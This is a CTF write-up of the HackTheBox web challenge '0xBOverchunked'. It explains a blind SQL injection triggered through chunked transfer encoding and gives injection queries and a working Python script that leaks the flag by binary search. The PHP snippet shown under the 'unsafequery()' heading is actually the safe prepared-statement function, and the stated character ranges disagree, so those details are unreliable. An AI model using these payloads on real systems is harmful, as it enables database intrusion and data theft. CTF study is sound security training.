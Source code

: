 ```yaml
---
title: When Leetcode Meets Hacking
description: Solution for HTB Web Challenge 0xBOverchunked
date: 2023-02-08 02:45:01-0700
image: img/hackthebox.jpg
categories:
    - HackTheBox
tags:
    - web
    - htb
    - easy
---
```


# Intro

Given that I'm currently grinding leetcode and app sec stuff, this challenge was super enjoyable.
The vulnerability is very straightforward and easy to spot, and you get to write a binary search script to leak the flag (you don't have to, but it does offer optimal time complexity).

# Walkthrough

There is an SQL injection available within the `unsafequery()` function.

```php
function safequery($pdo, $id)
{
    if ($id == 6)
    {
        die("You are not allowed to view this post!");
    }

    $stmt = $pdo->prepare("SELECT id, gamename, gamedesc, image FROM posts  WHERE id = ?");
    $stmt->execute([$id]);

    $result = $stmt->fetch(PDO::FETCH_ASSOC);

    return $result;
}
```

This unsafe function can only be called when we have the `Transfer-Encoding: chunked` header in our request, but if the query succeeds then we will only see an error message.

```php
if (isset($_SERVER["HTTP_TRANSFER_ENCODING"]) && $_SERVER["HTTP_TRANSFER_ENCODING"] == "chunked")
{
    $search = $_POST['search'];
    $result = unsafequery($pdo, $search);

    if ($result)
    {
        echo "<div class='results'>No post id found.</div>";
    }
    else
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }
}
```
However, this is enough for blind SQL.
We can iterate over the indices of the flag value, and compare each substring of length 1 at that index with another character, and make educated guesses about the value of the flag.
Take a look at the following:

```
SELECT id, gamename, gamedesc, image from posts where id = '1' AND 1=1 ;--
SELECT id, gamename, gamedesc, image from posts where id = '1' AND substr('HTB', 1, 1) = 'H' ;--
SELECT id, gamename, gamedesc, image FROM posts WHERE id = '1' AND substr((SELECT gamedesc FROM posts WHERE id = '6'), 1, 1) > 'A' ;--
```
All of these statements will execute successfully, giving us the `No post id found` message.

It's just a slightly more convuluted basic SQL injection, but you base your guess of the flag value based on whether the second condition resolves to True or False.
This is where leetcode comes in.
So the flag can contain any value from 0x20 to 0x7f (that is just the readable ASCII range).
So we can use a binary search algorithm to make a guess as to whether a character in the flag is greater or lesser than some mid range value.
We just take the mid point of 0x20 and 0x75, create a query that will give us the `No post id found` message if the flag letter is greater, or give us a 500 error if its not.
Then we readjust the range, and keep repeating until only 1 character is left.

```python
#!/usr/bin/python3

import requests

URL = "http://localhost:1337"
PATH = "/Controllers/Handlers/SearchHandler.php"

def build_query(idx, c):
        query = f"search=6' AND substr((SELECT gamedesc FROM posts where id = '6'), {idx}, 1) > '{c}' ;--"
        payload = ""
        payload += f"{len(query):X}\r\n"
        payload += query
        payload += "\r\n"
        payload += "0\r\n"
        payload += "\r\n"

        return payload

def make_request(payload):
        headers = {
                "Content-Type": "application/x-www-form-urlencoded",
                "Transfer-Encoding": "chunked"
                }
        r = requests.post(URL + PATH, data=payload, headers=headers)
        if r.status_code == 200:
                return True
        else:
                return False

def find_letter(idx):
        start = 32
        end = 127

        while (end - start) > 0:
                mid = (start + end) // 2
                q = build_query(idx, chr(mid))
                correct = make_request(q)
                if correct:
                        start = mid + 1
                else:
                        end = mid
        
        return chr(start)

print("[i] LEAKING FLAG: ", end="")
letter = ""
ctr = 1
while letter != "}":
        letter = find_letter(ctr)
        print(letter, end="")
        ctr += 1
```
